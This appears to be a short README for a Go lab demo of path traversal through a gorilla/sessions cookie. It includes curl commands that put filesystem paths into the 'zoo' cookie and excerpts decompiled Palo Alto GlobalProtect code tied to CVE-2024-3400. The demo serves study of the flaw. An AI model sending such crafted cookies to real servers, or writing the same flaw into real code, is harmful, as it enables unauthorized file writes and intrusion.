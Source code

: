 # A Gorilla Session Vulnerable to Path Directory Traversal

```
export SESSION_KEY=gorilla
```

```
go run escapezoo.go
```

# Path Directory Traversal

```
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# Palo Alto Global Protect CVE-2024-3400 related vulnerability

```
if ( os_IsNotExist(fmta._r2) )
      {
        store_8b = (github_com_gorilla_sessions_Store_0)net_http__ptr_Request_Context(r);
        ctxb = store_8b.tab;
        v52 = runtime_convTstring((string)s->path);
        v6 = (_1_interface_ *)runtime_newobject((runtime__type_0 *)&RTYPE__1_interface_);
        v51 = (interface__0 *)v6;
        (*v6)[0].tab = (void *)&RTYPE_string_0;
        if ( *(_DWORD *)&runtime_writeBarrier.enabled )
          runtime_gcWriteBarrier();
        else
          (*v6)[0].data = v52;
        storee.tab = ctxb;
        storee.data = store_8b.data;
        fmtb.str = (uint8 *)"folder is missing, create folder %s";
        fmtb.len = 35LL;
        fmt_16a.array = v51;
        fmt_16a.len = 1LL;
        fmt_16a.cap = 1LL;
        paloaltonetworks_com_libs_common_Warn(storee, fmtb, fmt_16a);
        err_1 = os_MkdirAll((string)s->path, 0644u);
```

[https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-cve-2024-3400/]
